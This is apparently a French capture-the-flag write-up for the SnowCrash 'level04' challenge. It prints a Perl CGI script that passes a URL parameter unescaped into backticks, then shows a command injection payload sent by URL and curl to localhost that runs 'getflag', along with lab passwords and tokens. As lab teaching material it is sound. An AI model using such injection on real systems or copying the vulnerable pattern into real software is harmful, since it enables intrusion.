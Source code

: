 # Level04

Une fois connecté avec le username:motdepasse level04:qi0maab88jeaj46qoumi7maus (obtenu dans le flag précédent), nous arrivons sur le home de l'utilisateur level04.  
Sur le home, nous trouvons le fichier suivant :  
```pl
level04@SnowCrash:~$ ls
level04.pl
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Dans le dossier /var/www il y a un projet nommé level04. 
L'index de ce projet affiche tout simplement le retour de la variable x passé en parametre via `echo`.
Nous allons donc afficher le retour de `getflag` en le donnant en tant que parametre x.
Pour que le site ne nous affiche pas simplement `getflag` mais bien le retour du binaire getflag, nous le donnons en parametre x dans des backquotes pour que `echo` l'exécute et affiche son résultat.

Ici nous avons deux possibilités :   

- via l'url :  
  ![level04flag](../../assets/level04flag.png)
- via curl :  
  ```sh
  level04@SnowCrash:~$ curl localhost:4747/?x=\`getflag\`
  Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
  ```
  
